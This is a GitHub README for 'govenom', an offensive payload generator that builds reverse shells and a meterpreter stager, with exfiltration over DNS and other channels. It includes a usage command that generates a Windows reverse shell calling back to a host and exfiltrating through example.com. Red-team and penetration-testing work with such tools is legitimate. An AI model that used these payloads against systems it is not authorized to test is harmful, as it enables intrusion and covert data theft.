 <p align="center">
  <img alt="govenom Logo" src="https://repository-images.githubusercontent.com/208469800/1d777d80-e3d9-11ea-8f39-739f2e6af4d9" height="140" />
  <h1 align="center"><b>govenom</b></h1>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Check"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Check?label=Check&style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Build"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Build?label=Build&style=for-the-badge"></a>
    <a href="https://goreportcard.com/report/github.com/erikgeiser/govenom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/erikgeiser/govenom?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms. It is also much faster than `msfvenom`.

---

## Payloads

Currently, three payloads are supported:

* **rsh:** A simple reverse shell. It selects one of the most common
 shells binaries and makes it available via TCP or UDPconnection.
* **xrsh:** An extended robust reverse shell. A simple heuristic
determines the most suitable shell executable, taking shells that
are installed but not in `$PATH` into account. In contrast to most
other available shells out there, additional info can be sent via
alternative communication channels via the exfiltration mechanism
(see relevant section below). For example, if no shell could be
detected or the connection could not be established due to a
firewall, the corresponding error can be exfiltrated via DNS.
* **stager**: A shellcode stager that is compatible with Metasploits
`exploits/multi/handler` with a `meterpreter/reverse_tcp` payload.
It first reads a 4 Byte shellcode length and then the shellcode
itself from a TCP connection and executes it. Currently, this is
only available for Windows targets.

## Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections or maybe just one
of the ports you tried. Maybe you expected `powershell` to be
present but only `cmd` is there. The solution to problem is the
`govenom` debug log exfiltration mechanism which can optionally be
used with `xrsh` and `stager` payloads. It lets you configure an
arbitrary amount of exfiltration strategies of the following types:

* **`stdout`/`stderr`:** If you can capture the output of your
payload when it's executed, you can output debug logs via
`stdout/stderr`.

* **DNS:** The most useful exfiltration type because noone blocks
DNS. Messages are encoded and split into parts which can be put
together again by the `govenom` tool `dnslogger` (see section
below).

* **File:** Write the debug information into a file on the target
system. This is for example useful if you can recover files via a
local file inclusion vulnerability.

* **Net (`dial`):** Send the debug log via a TCP or UDP connection
that's different from the original connect back connection.

## Tools

`govenom` also provides some tools to work with the payloads:

* **dnslogger:** The `dnslogger` tool decodes and recombines messages
that were exfiltrated via DNS.

* **pusher:** The `pusher` tool can serve and deliver `meterpreter`
shellcode generated using `msfvenom` to the `govenom` stager payload.

## Building

`govenom` can be built in two ways. It either generate payloads
directly from the source code in the `./payloads` folder of this
repos or it can be built with the source code embedded such that
it works as a standalone binary. The binaries distributed with
releases are standalone binaries.

```bash
# build a govenom binary that uses the payload code
# directly from the repository
go build

# build a standalone govenom binary (see the standalone
# Makefile section for the commands to build on Windows)
make standalone
```

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
govenom payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exfil dns:example.com,stdout,dial:udp:127.0.0.1:1234 \
    -o revsh.exe

# run a tool
govenom ./govenom.go tool dnslogger
```

**Note:** Go has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## FAQ:
---
**The `govenom` integrity cannot be verified on macOS**
macOS adds a quarantine attribute to downloaded binaries
which you can remove with the following command:
```
xattr -d com.apple.quarantine ./govenom
```
---

## Plans

* Connection encryption
* Reverse shell listener like `ncat` with logging capabilities
* Linux support for the `stager` payload

Thanks to [https://quasilyte.dev]() for the logo.